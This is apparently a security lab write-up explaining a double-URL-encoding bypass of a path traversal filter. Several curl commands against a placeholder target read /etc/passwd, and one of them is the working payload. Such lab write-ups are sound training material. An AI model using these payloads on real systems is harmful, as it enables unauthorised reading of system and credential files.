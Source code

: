 # File path traversal, traversal sequences stripped with superfluous URL-decode — Practitioner

**Status:** Solved

---

## Goal

Bypass a filter that blocks `../` and then URL-decodes the input. Use double encoding to exploit the vulnerability.

---

## Steps (simple & complete)

1. **Find the vulnerable endpoint**
   - Browse any product page and check how images load:
```
   GET /image?filename=15.jpg
```

2. **Test normal traversal**
   - Try basic traversal:
```bash
   curl -s "https://TARGET/image?filename=../../../etc/passwd"
```
   - This fails because the app blocks `../`.

3. **Test single URL encoding**
   - Try URL-encoded version (`%2e%2e%2f` = `../`):
```bash
   curl -s "https://TARGET/image?filename=%2e%2e%2f%2e%2e%2f%2e%2e%2fetc/passwd"
```
   - This also fails because the app decodes it and then blocks it.

4. **Understand the filter logic**
   - The app first checks for blocked sequences
   - Then performs URL-decoding
   - This creates an opportunity: double-encode to bypass the initial check.

5. **Use double URL encoding**
   - `../` → `%2e%2e%2f` (first encoding)
   - `%2e%2e%2f` → `%252e%252e%252f` (second encoding)
   - Use the double-encoded payload:
```bash
   curl -s "https://TARGET/image?filename=%252e%252e%252f%252e%252e%252f%252e%252e%252fetc/passwd"
```

6. **How it works**
   - First check: sees `%252e%252e%252f` (looks harmless, passes filter)
   - URL decode: becomes `%2e%2e%2f`
   - Second decode: becomes `../`
   - Final path: `../../../etc/passwd`

7. **Verify success**
   - If you see the file contents, the double encoding bypass worked.

8. **Lab completion**
   - The lab automatically marks as solved when `/etc/passwd` is successfully retrieved.

---

## Example

- Vulnerable endpoint: `GET /image?filename=15.jpg`
- Working payload:
```bash
curl -s "https://TARGET/image?filename=%252e%252e%252f%252e%252e%252f%252e%252e%252fetc/passwd"
```

---

**Lab 4 Complete ✓**